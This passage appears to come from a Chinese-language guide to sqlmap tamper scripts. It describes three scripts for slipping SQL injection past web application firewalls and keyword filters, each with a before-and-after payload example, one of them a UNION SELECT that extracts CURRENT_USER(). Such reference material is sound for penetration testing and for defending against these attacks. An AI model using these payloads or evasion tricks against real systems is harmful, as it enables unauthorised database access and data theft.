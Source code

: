 ```
MySQL 4, 5.0 and 5.5
Oracle 10g
PostgreSQL 8.3, 8.4, 9.0
```

#### 针对过滤关键字的

**1:halfversionedmorekeywords.py**

作用：当数据库为`mysql`时绕过防火墙，每个关键字之前添加`mysql`版本评论

示例：

```
("value' UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), NULL, NULL# AND 'QDWa'='QDWa") "value'/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),/*!0CHAR(58,97,110,121,58)),/*!0NULL,/*!0NULL#/*!0AND 'QDWa'='QDWa"
```

版本要求:

```
MySQL < 5.1
在以下版本做过测试:
MySQL 4.0.18, 5.0.22
```

**2:ifnull2ifisnull.py**

作用：绕过对`IFNULL`过滤。 替换类似`’IFNULL(A, B)’为’IF(ISNULL(A), B, A)’`

示例：

```
'IFNULL(1, 2)'
'IF(ISNULL(1),2,1)'
```

版本要求:

```
MySQL
SQLite (possibly)
SAP MaxDB (possibly)
在以下版本做过测试:
MySQL 5.0 and 5.5
```

**3:multiplespaces.py**

作用：围绕 SQL 关键字添加多个空格

示例：

```
'1 UNION SELECT foobar'
'1 UNION SELECT foobar'
```
